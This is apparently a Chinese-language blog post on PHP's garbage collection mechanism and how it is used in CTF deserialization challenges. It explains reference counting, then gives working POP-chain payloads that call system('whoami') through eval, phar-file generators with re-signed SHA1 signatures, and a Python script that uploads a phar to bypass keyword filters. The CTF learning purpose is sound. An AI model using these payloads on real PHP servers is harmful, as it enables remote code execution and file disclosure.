






+++
title = "php GC回收机制以及常见利用利用方式"
slug = "php-gc-mechanism-and-common-exploitation"
description = ""
date = "2024-09-14T18:58:51"
lastmod = "2024-09-14T18:58:51"
image = ""
license = ""
categories = ["talk"]
tags = ["php"]
+++

# 0x01 前言

之前总结了wakeup的绕过方法但是其中的两种姿势，其实都是和这个GC的回收机制有关系所以我来浅浅的解析一下，会自己的姿势库分析一下，嘿嘿

# 0x02 question

## GC是啥

> PHP 的垃圾回收机制（Garbage Collection, GC）是用于管理内存分配的一个自动化过程，主要针对循环引用的**内存泄漏**问题。它是在 **PHP 5.3** 之后引入的增强功能，帮助开发者自动管理内存，尤其是在复杂的应用场景下。

那么它是根据什么来定位哪些可以回收的呢，`引用计数`和`回收周期`，这两个东西是啥啊？

### 引用计数

> 引用计数是一种内存管理技术，用来记录一个值或对象被多少个变量引用。每当一个变量指向某个值时，引用计数就会增加；当某个变量不再引用该值时，引用计数就会减少。当引用计数降为 0 时，表示没有变量再使用这个值，系统会将其占用的内存释放。

```php
<?php 
$a="baozongwi";
xdebug_debug_zval("a");
/*
a: (refcount=1, is_ref=0)='baozongwi'
```

看到这段代码，怎么来的，来分析一下

- 每个`php`变量存在一个叫`zval`的变量容器中。
- 一个`zval`变量容器，除了包含变量的类型和值，还包括两个字节的额外信息。
- 这两个额外信息，第一个是`is_ref`，是个`bool`值，用来标识这个变量是否是属于引用集合。通过这个字节，php引擎才能把普通变量和引用变量区分开来，由于`php`允许用户通过使用&来使用自定义引用，zval变量容器中还有一个内部引用计数机制，来优化内存使用。
- 第二个额外字节是 `refcount`，用以表示指向这个`zval`变量容器的变量个数。
- 所有的符号存在一个符号表中，其中每个符号都有作用域(scope)，那些主脚本(比如：通过浏览器请求的的脚本)和每个函数或者方法也都有作用域。

那么开始测试

#### 标量

```php
<?php
$a = "baozongwi";
$b = $a; // $a 和 $b 引用相同的字符串，refcount 应为 2

xdebug_debug_zval('a'); // 检查 $a 的 refcount
/*
a: (refcount=1, is_ref=0)='baozongwi'
```

这里我们预期上其实应该是2的，因为变量个数所增加了，但是实际上为啥是1呢，通过查阅我发现，原来内部机制是这样

> PHP 使用了一种称为 **写时复制（Copy-on-Write, COW）** 的内存优化机制，这意味着当你将 `$a` 的值赋给 `$b` 时，PHP 并不会立即复制该值，而是让 `$b` 和 `$a` 指向同一个内存块，直到其中一个变量被修改。

```php
<?php
$a = "baozongwi";
$b = &$a; // $a 和 $b 引用相同的字符串，refcount 应为 2

xdebug_debug_zval('a'); // 检查 $a 的 refcount
/*
a: (refcount=2, is_ref=1)='baozongwi'
```

这样子不就对了

那么，如何减少引用次数呢，也就是让我们不需要的东西被回收

也就是`unset`,使得变量被删除

```php
<?php
$a = "baozongwi";
$b = &$a;  // 此时 $a 和 $b 引用相同的值，refcount 应为 2

xdebug_debug_zval('a');  // 查看引用计数，refcount = 2

unset($b);  // 解除 $b 的引用
xdebug_debug_zval('a');  // 查看引用计数，refcount 现在应为 1
/*
a: (refcount=2, is_ref=1)='baozongwi'
a: (refcount=1, is_ref=1)='baozongwi'
```

但是对于简单标量(整数、浮点数、布尔值等)

```php
<?php
$a = 1;
xdebug_debug_zval('a');
//output -> a: (refcount=0, is_ref=0)=1
 
$b = $a;
xdebug_debug_zval('a');
//output -> a: (refcount=0, is_ref=0)=1

$c = &$a;
xdebug_debug_zval('a');
//output -> a: (refcount=2, is_ref=1)=1
```

这是因为标量类型的值是不可变的，PHP 没有必要为这些简单值创建多个引用或进行内存管理。在 PHP 中，标量类型值的操作非常高效，所以 PHP 没有为它们维护 `refcount`。

当使用`&`引用后，`is_ref`区分引用变量，`refcount`变为了2。

#### 复合

> 对于 [array](https://www.php.net/manual/zh/language.types.array.php) 和 [object](https://www.php.net/manual/zh/language.types.object.php) 这样的复合类型，情况会稍微复杂一些。与 scalar 值不同，[array](https://www.php.net/manual/zh/language.types.array.php) 和 [object](https://www.php.net/manual/zh/language.types.object.php) 的属性存储在自己的符号表中。这意味着以下示例将创建三个 zval 容器：

```php
<?php
$a = array( 'meaning' => 'life', 'number' => 42 );
xdebug_debug_zval( 'a' );
/*
a: (refcount=2, is_ref=0)=array (
    'meaning' => (refcount=1, is_ref=0)='life',
    'number' => (refcount=0, is_ref=0)=42
)
```



一样的增加

```php
<?php
$a = array( 'meaning' => 'life', 'number' => 42 );
$a['life']=$a['meaning'];
xdebug_debug_zval( 'a' );
/*
a: (refcount=1, is_ref=0)=array (
    'meaning' => (refcount=3, is_ref=0)='life',
    'number' => (refcount=0, is_ref=0)=42,
    'life' => (refcount=3, is_ref=0)='life'
)
```

啊？怎么回事，直接就暴涨到了3，解析一下发现原来确实是进行了三次引用

- **数组 `$a['meaning']`**：第一个引用。
- **数组 `$a['life']`**：第二个引用。
- **PHP 引擎符号表中的缓存**：为了优化性能，PHP 对常见的字符串（比如 `'life'`）会缓存，以避免重复创建相同的字符串值。这是 PHP 引擎的一种内存优化技术。



进行地址的引用的话不出意外应该是2，就像标量一样

```php
<?php
$a = array( 'meaning' => 'life', 'number' => 42 );
$a['life']=&$a['meaning'];
xdebug_debug_zval( 'a' );
/*
a: (refcount=1, is_ref=0)=array (
    'meaning' => (refcount=2, is_ref=1)='life',
    'number' => (refcount=0, is_ref=0)=42,
    'life' => (refcount=2, is_ref=1)='life'
)
```

确实如此

删除的话也是如此

```php
<?php
$a = array( 'meaning' => 'life', 'number' => 42 );
$a['life']=&$a['meaning'];
unset($a['meaning'],$a['number']);
xdebug_debug_zval( 'a' );
/*
a: (refcount=1, is_ref=0)=array (
    'life' => (refcount=1, is_ref=1)='life'
)
```

还有一种特殊情况就是添加数组本身

```php
<?php
$a = array( 'one' );
$a[] =& $a;
xdebug_debug_zval( 'a' );
/*
a: (refcount=2, is_ref=1)=array (
    0 => (refcount=2, is_ref=0)='one',
    1 => (refcount=2, is_ref=1)=...
)
```



首先为什么是2，很容易理解就是我们这个数组里面确实是有两个变量，而`$a[1]`的引用为`1`，是因为数组的自引用

### 回收周期

在php5.3之前，GC回收是仅仅依靠引用计数来进行的，但是这样子造成了一个很严重的漏洞(循环引用问题)

#### php <=5.2

该版本及之前的垃圾回收机制就是单纯的使用**引用计数**方法。但是注意，当两个或多个对象互相引用形成循环，内存对象的refcount计数器并不会消减为0，也就就是说，此时这组内存对象已经没有被使用，但又不能回收，因此出现内存泄露现象。

#### php 5.3-->5.6

php5.3开始，使用了新的垃圾回收机制，在 **引用计数** 基础上，实现了一种复杂的算法，来检测内存对象中**循环引用**存在，以避免内存泄露。

在这些版本中，PHP把那些可能是垃圾的变量容器放入根缓冲区，当根缓冲区满了之后就会启动新的垃圾回收机制。过程如下：

> 如果发现一个zval容器中的refcount在增加，说明不是垃圾；
> 如果发现一个zval容器中的refcount在减少，如果减到了0，直接当做垃圾回收；
> 如果发现一个zval容器中的refcount在减少，并没有减到0，PHP会把该值放到缓冲区，当做有可能是垃圾的怀疑对象；
> 当缓冲区达到临界值，PHP会自动调用一个方法取遍历每一个值，如果发现是垃圾就清理。

#### php>=7.0

从PHP7的NTS版本开始，以下例程的引用将不再被计数，即 $c=$b=$a 之后 a 的引用计数也是1。

具体情况如下：

> 1.对于null，bool，int和double的类型变量，refcount永远不会计数；
> 2.对于对象、资源类型，refcount计数和php5的一致；
> 3.对于字符串，未被引用的变量被称为“实际字符串”。而那些被引用的字符串被重复删除（即只有一个带有特定内容的被插入的字符串）并保证在请求的整个持续时间内存在，所以不需要为它们使用引用计数；如果使用了opcache，这些字符串将存在于共享内存中，在这种情况下，您不能使用引用计数（因为我们的引用计数机制是非原子的）；
> 4.对于数组，未引用的变量被称为“不可变数组”。其数组本身计数与php5一致，但是数组里面的每个键值对的计数，则按前面三条的规则（即如果是字符串也不在计数）；如果使用opcache，则代码中的常量数组文字将被转换为不可变数组。再次，这些生活在共享内存，因此不能使用refcounting。

也就是我们这次的实验环境

## 反序列化的利用

那么，说到底GC回收机制有什么能利用的点呢，这就需要联系起PHP的魔术方法__destrcut函数,在程序结束后php会自动调用__destruct进行自动销毁，如果程序报错或者抛出异常则不会触发__destruct。先来简单看看实际情况下GC回收机制的工作。

### php

```php
<?php
class gc{
    public $num;
    public function __construct($num)
    {
        $this->num=$num;
        echo "construct(".$num.")"."\n";
    }
    public function __destruct()
    {
        echo "destruct(".$this->num.")"."\n";
    }
}
$a=new gc(1);
$b=new gc(2);
$c=new gc(3);
/*
construct(1)
construct(2)
construct(3)
destruct(3)
destruct(2)
destruct(1)
```

这里都是进行了变量的 引用的所以正常的进行魔术方法触发

而我们稍微修改一下，比如不引用看看呢

```php
<?php
class gc{
    public $num;
    public function __construct($num)
    {
        $this->num=$num;
        echo "construct(".$num.")"."\n";
    }
    public function __destruct()
    {
        echo "destruct(".$this->num.")"."\n";
    }
}
new gc(1);
$b=new gc(2);
$c=new gc(3);
/*
construct(1)
destruct(1)
construct(2)
construct(3)
destruct(3)
destruct(2)
```

发现直接就把`(1)`给销毁了,也就是`fast-destruct`

#### 绕过异常类

那么给个数组中利用的例子

```php
<?php
class gc{
    public $num;
    public function __construct($num)
    {
        $this->num=$num;
        echo "construct(".$num.")"."\n";
    }
    public function __destruct()
    {
        echo "destruct(".$this->num.")"."\n";
    }
}
$arr=array(0=>new gc(1),1=>NULL);
$arr[0]=$arr[1];
xdebug_debug_zval('arr');
$b=new gc(2);
$c=new gc(3);
```

也是成功的销毁了

##### Demo 1

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class gc0{
    public $num;
    public function __destruct(){
        echo $this->num."hello __destruct";
    }
}
class gc1{
    public $string;
    public function __toString() {
        echo "hello __toString";
        $this->string->flag();
        return 'useless';
    }
}
class gc2{
    public $cmd;
    public function flag(){
        echo "hello __flag()";
        eval($this->cmd);
    }
}
$a=unserialize($_GET['code']);
throw new Exception("Garbage collection");
?>
```

```
gc0::destruct->gc1::toString->gc2::flag
```

poc

```php
<?php
class gc0{
    public $num;
}
class gc1{
    public $string;
    
}
class gc2{
    public $cmd;
}
$a=new gc0;
$a->num=new gc1;
$a->num->string=new gc2;
$a->num->string->cmd='system("whoami");';
$arr=array(0=>$a,1=>null);
echo serialize($arr);
```

此时打入当然没有触发，记得我们绕过wakeup的方法嘛，要么加大括号要么改属性个数，那么这里尝试一下，本质就是将其指向`NULL`

```
?code=a:2:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":1:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:1;N;
成功
?code=a:2:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":2:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:1;N;}

?code=a:2:{i:0;O:3:"gc0":1:{s:3:"num";O:3:"gc1":1:{s:6:"string";O:3:"gc2":1:{s:3:"cmd";s:17:"system("whoami");";}}}i:0;N;}
```

都是成功了的

##### Demo 2

**CTFShow[卷王杯]easy unserialize**

```php
<?php
include("./HappyYear.php");

class one {
    public $object;

    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $talk;
                echo "$talk"."</br>";
                global $flag;
                echo $flag;
            }
        });
    }

    public function __destruct() {
        @$this->object->add();
    }

    public function __toString() {
        return $this->object->string;
    }
}

class second {
    protected $filename;

    protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
}

class third {
    private $string;

    public function __construct($string) {
        $this->string = $string;
    }

    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}

if (isset($_GET["ctfshow"])) {
    $a=unserialize($_GET['ctfshow']);
    throw new Exception("高一新生报道");
} else {
    highlight_file(__FILE__);
}
```

```
one::destruct->two::call->two::addMe->one::toString->third::get->one::MeMeMe
```

首先这里有私有属性必须得直接赋值，然后`MeMeMe`又在遍历数组(键值对可以写数组也可以直接赋值)

写个`poc`

```php
<?php
class one {
    public $year_parm=array("Happy_func");
    public $object;


}

class second {
    public $filename;

}

class third {
    private $string;

}

$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(array("string"=>[new one(),"MeMeMe"]));
$b=array($a,null);
echo urlencode(serialize($b));
```

修改之后仍然是打不通的，找了挺久的问题，后来想着可能要把题目中的方法也包含起来才可以

```php
<?php

class one {
    //public $year_parm=array("Happy_func");
    public $year_parm="Happy_func";
    public $object;


    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $talk;
                echo "$talk"."</br>";
                global $flag;
                echo $flag;
            }
        });
    }

    public function __destruct() {
        @$this->object->add();
    }

    public function __toString() {
        return $this->object->string;
    }
}

class second {
    public $filename;

    protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
}

class third {
    private $string;

    public function __construct($string) {
        $this->string = $string;
    }

    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}

$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(array("string"=>[new one(),"MeMeMe"]));
$b = array($a,NULL);
echo urlencode(serialize($b));
```

修改一下，最后的payload是

````
?ctfshow=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BN%3B%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7D%7D%7D%7Di%3A0%3BN%3B%7D
````

这道题还是挺有意思的，也有一些坑，方法的调用和pop链其实都挺有意思，特别是最后那个数组直接赋值隐私属性

### phar

#### Demo 1

```php
<?php 
highlight_file(__FILE__); 
class Test{ 
    public $code; 
    public function __destruct(){ 
        eval($this -> code); 
        } 
}
$filename = $_GET['filename']; 
echo file_get_contents($filename); 
throw new Error("Garbage collection"); 
?>
```

很容易想到是phar文件反序列化，但是我们如果进行GC回收机制的利用就必须要进行签名的修改，也就是签名的重新生成，这里我们写个`poc`

```php
<?php
class Test{
    public $code="phpinfo();";
    
}
$o=new Test();
$c=array($o,null);

@unlink("demo.phar");
$phar=new Phar('demo.phar',0);

$phar->startBuffering();     
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt","test");  
$phar->stopBuffering(); 
```

然后拖进`010editor`进行修改

再重新生成签名

```python
from hashlib import sha1
with open('demo.phar', 'rb') as file:
    f = file.read() 
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)
with open('newtest.phar', 'wb') as file:
    file.write(newf) # 写入新文件
```





欧克好起来了，那么利用看看那



这就是回收机制嘛，好嗨哟

#### Demo 2

emm我没找到，但是看了还是很基础的一道题

**[NSSCTF]prize_p1**

```php
<?php
highlight_file(__FILE__);
class getflag {
    function __destruct() {
        echo getenv("FLAG");
    }
}

class A {
    public $config;
    function __destruct() {
        if ($this->config == 'w') {
            $data = $_POST[0];
            if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
                die("我知道你想干吗，我的建议是不要那样做。");
            }
            file_put_contents("./tmp/a.txt", $data);
        } else if ($this->config == 'r') {
            $data = $_POST[0];
            if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
                die("我知道你想干吗，我的建议是不要那样做。");
            }
            echo file_get_contents($data);
        }
    }
}
if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $_GET[0])) {
    die("我知道你想干吗，我的建议是不要那样做。");
}
unserialize($_GET[0]);
throw new Error("那么就从这里开始起航吧");
```

过滤的东西很多但是`phar`没有被过滤所以直接上就行了 

```php
<?php
class getflag{

}
$o=new getflag();
$c=array($o,null);

@unlink("demo.phar");
$phar=new Phar('demo.phar');

$phar->startBuffering();     
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$phar->setMetadata($c);
$phar->addFromString("test.txt","test");  
$phar->stopBuffering(); 
```

一样的进行签名的修复

```python
from hashlib import sha1
with open('demo.phar', 'rb') as file:
    f = file.read() 
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)
with open('newtest.phar', 'wb') as file:
    file.write(newf) # 写入新文件
```

```php
<?php
class A{
    public $config="w";
    //public $config="r";
}
echo serialize(new A());
```

写个脚本打入读取`flag`即可(先写入`/tmp`,再进行读取)

```python
import requests
import gzip 
import re

url =""
file=open("./newtest.phar","rb")
file_out=gzip.open("./phar.zip","wb+")
file_out.writelines(file)
file_out.close()
file.close()

requests.post(
    url=url,
    params={
        0:'O:1:"A":1:{s:6:"config";s:1:"w";}'
    },
    data={
        0:open('./phar.zip','rb').read()
    }
)
r=requests.post(
    url=url,
    params={
        0:'O:1:"A":1:{s:6:"config";s:1:"r";}'
    },
    data={
        0:'phar://./tmp/a.txt'
    }
)
r.encoding='utf-8'
target=re.compile('(NSSCTF\{.+?\})').findall(r.text)[0]
print(target)
```

应该是能行的，不行的话稍微改改也行估计

# 0x03 小结

中途研究机制的时候和利用感觉差远了，有点扯远了的感觉，但是后面确实是通过GC回收机制更加的清楚绕过的手法原理，之前只知道改一下`payload`可以绕过，现在知道为啥了
